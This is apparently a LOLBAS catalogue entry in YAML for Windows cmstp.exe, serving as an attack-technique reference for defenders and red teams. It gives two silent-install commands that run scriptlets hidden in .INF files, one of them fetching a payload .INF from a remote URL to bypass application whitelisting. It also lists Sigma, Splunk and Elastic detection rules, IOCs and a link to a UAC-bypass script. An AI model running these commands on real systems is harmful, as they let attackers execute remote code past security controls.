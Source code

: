 ```yaml
---
Name: Cmstp.exe
Description: Installs or removes a Connection Manager service profile.
Author: 'Oddvar Moe'
Created: 2018-05-25
Commands:
  - Command: cmstp.exe /ni /s c:\cmstp\CorpVPN.inf
    Description: Silently installs a specially formatted local .INF without creating a desktop icon. The .INF file contains a UnRegisterOCXSection section which executes a .SCT file using scrobj.dll.
    Usecase: Execute code hidden within an inf file. Download and run scriptlets from internet.
    Category: Execute
    Privileges: User
    MitreID: T1218.003
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
    Tags:
      - Execute: INF
      - Input: Custom Format
  - Command: cmstp.exe /ni /s https://raw.githubusercontent.com/api0cradle/LOLBAS/master/OSBinaries/Payload/Cmstp.inf
    Description: Silently installs a specially formatted remote .INF without creating a desktop icon. The .INF file contains a UnRegisterOCXSection section which executes a .SCT file using scrobj.dll.
    Usecase: Execute code hidden within an inf file. Execute code directly from Internet.
    Category: AWL Bypass
    Privileges: User
    MitreID: T1218.003
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10
    Tags:
      - Execute: INF
      - Input: Custom Format
Full_Path:
  - Path: C:\Windows\System32\cmstp.exe
  - Path: C:\Windows\SysWOW64\cmstp.exe
Detection:
  - Sigma: https://github.com/SigmaHQ/sigma/blob/62d4fd26b05f4d81973e7c8e80d7c1a0c6a29d0e/rules/windows/process_creation/proc_creation_win_cmstp_execution_by_creation.yml
  - Sigma: https://github.com/SigmaHQ/sigma/blob/62d4fd26b05f4d81973e7c8e80d7c1a0c6a29d0e/rules/windows/process_creation/proc_creation_win_uac_bypass_cmstp.yml
  - Splunk: https://github.com/splunk/security_content/blob/bee2a4cefa533f286c546cbe6798a0b5dec3e5ef/detections/endpoint/cmlua_or_cmstplua_uac_bypass.yml
  - Elastic: https://github.com/elastic/detection-rules/blob/82ec6ac1eeb62a1383792719a1943b551264ed16/rules/windows/defense_evasion_suspicious_managedcode_host_process.toml
  - Elastic: https://github.com/elastic/detection-rules/blob/414d32027632a49fb239abb8fbbb55d3fa8dd861/rules/windows/defense_evasion_unusual_process_network_connection.toml
  - IOC: Execution of cmstp.exe without a VPN use case is suspicious
  - IOC: DotNet CLR libraries loaded into cmstp.exe
  - IOC: DotNet CLR Usage Log - cmstp.exe.log
Resources:
  - Link: https://twitter.com/NickTyrer/status/958450014111633408
  - Link: https://gist.github.com/NickTyrer/bbd10d20a5bb78f64a9d13f399ea0f80
  - Link: https://gist.github.com/api0cradle/cf36fd40fa991c3a6f7755d1810cc61e
  - Link: https://oddvar.moe/2017/08/15/research-on-cmstp-exe/
  - Link: https://gist.githubusercontent.com/tylerapplebaum/ae8cb38ed8314518d95b2e32a6f0d3f1/raw/3127ba7453a6f6d294cd422386cae1a5a2791d71/UACBypassCMSTP.ps1
  - Link: https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/cmstp
Acknowledgement:
  - Person: Oddvar Moe
    Handle: '@oddvarmoe'
  - Person: Nick Tyrer
    Handle: '@NickTyrer'
---
```

